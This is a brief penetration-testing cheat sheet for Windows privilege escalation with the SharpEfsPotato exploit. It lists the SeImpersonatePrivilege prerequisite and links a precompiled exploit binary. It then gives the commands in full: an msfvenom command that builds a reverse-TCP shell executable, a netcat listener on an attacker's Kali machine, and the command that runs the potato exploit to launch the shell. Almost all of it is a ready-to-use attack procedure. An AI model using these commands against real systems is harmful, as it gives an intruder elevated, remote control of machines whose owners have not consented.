 
Pre-requisite:

- [x] `SeImpersonatePrivilege`  
- [x] Admin, Administrator User  
- [x] `SharpEfsPotato` binary:  [Download Link](https://github.com/jakobfriedl/precompiled-binaries/raw/main/PrivilegeEscalation/Token/SharpEfsPotato.exe)  

Generate a shell
```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=<PORT> LHOST=<IP> -f exe -o shell.exe
```
Transfer `shell.exe` and `SharpEfsPotato.exe` to Target

Start listener on KALI
```
rlwrap -r nc -lvnp <PORT>
```
`-r` → Forces always read line mode, making Netcat behave more like an interactive shell.

Execute potato
```
./SharpEfsPotato.exe -p shell.exe
```